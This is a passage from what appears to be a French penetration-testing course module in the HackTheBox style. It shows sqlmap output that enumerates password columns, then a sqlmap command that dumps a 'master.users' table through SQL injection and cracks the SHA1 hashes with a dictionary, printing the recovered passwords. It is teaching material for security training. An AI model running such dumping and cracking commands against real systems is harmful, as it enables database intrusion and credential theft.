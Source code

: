 ```
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| password | varchar(512) |
+----------+--------------+

Database: mysql
Table: user
[1 column]
+----------+----------+
| Column   | Type     |
+----------+----------+
| Password | char(41) |
+----------+----------+

Database: mysql
Table: servers
[1 column]
+----------+----------+
| Column   | Type     |
+----------+----------+
| Password | char(64) |
+----------+----------+

```

* * * * *

Énumération et craquage des mots de passe
-----------------------------------------

Une fois que nous avons identifié une table contenant des mots de passe (par exemple `master.users`), nous pouvons récupérer cette table avec l' `-T`option, comme indiqué précédemment :

```
dsgsec@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users

...SNIP...
[14:31:41] [INFO] fetching columns for table 'users' in database 'master'
[14:31:41] [INFO] fetching entries for table 'users' in database 'master'
[14:31:41] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N

do you want to crack them via a dictionary-based attack? [Y/n/q] Y

[14:31:41] [INFO] using hash method 'sha1_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/local/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[14:31:41] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N

[14:31:41] [INFO] starting dictionary-based cracking (sha1_generic_passwd)
[14:31:41] [INFO] starting 8 processes
[14:31:41] [INFO] cracked password '05adrian' for hash '70f361f8a1c9035a1d972a209ec5e8b726d1055e'
[14:31:41] [INFO] cracked password '1201Hunt' for hash 'df692aa944eb45737f0b3b3ef906f8372a3834e9'
...SNIP...
[14:31:47] [INFO] cracked password 'Zc1uowqg6' for hash '0ff476c2676a2e5f172fe568110552f2e910c917'
Database: master
Table: users
[32 entries]
```